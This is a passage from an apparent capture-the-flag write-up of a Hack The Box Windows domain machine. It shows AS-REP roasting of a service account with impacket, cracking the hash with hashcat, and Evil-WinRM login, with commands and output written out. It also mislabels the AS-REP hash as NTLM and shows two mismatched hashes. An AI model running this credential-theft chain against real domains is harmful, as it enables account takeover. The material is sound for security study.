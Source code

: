 ![Kerberos authentication](images/kerberos.png)

# Foothold
Since pre-authentication is disabled for `svc-alfresco`, we can use the `GetNPUsers` impacket script to request the TGT ticket and dump the user's NTLM hash.
```shell-session
knytecode@parrot:~$ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:92464b43f3a8f3bfd1d4b56c7e587c57
```
We can now use hashcat to crack the obtained NTLM hash, revealing the password as `s3rvice`.
```
knytecode@parrot:~$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:6d1c55b344fc86ea5010d3966fb68b9f:s3rvice
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:6d1c55b344fc86...ce88f5
Time.Started.....: Sun Jul 11 18:08:19 2021 (3 secs)
Time.Estimated...: Sun Jul 11 18:08:22 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1302.8 kH/s (6.14ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096000/14344385 (28.55%)
Rejected.........: 0/4096000 (0.00%)
Restore.Point....: 4079616/14344385 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: s9039554h -> s/nd/0s
```
Since port 5985 is open, we can use Evil-WinRM to check if the user can login remotely over WinRM. This works, giving us a remote powershell and the user flag.
```
```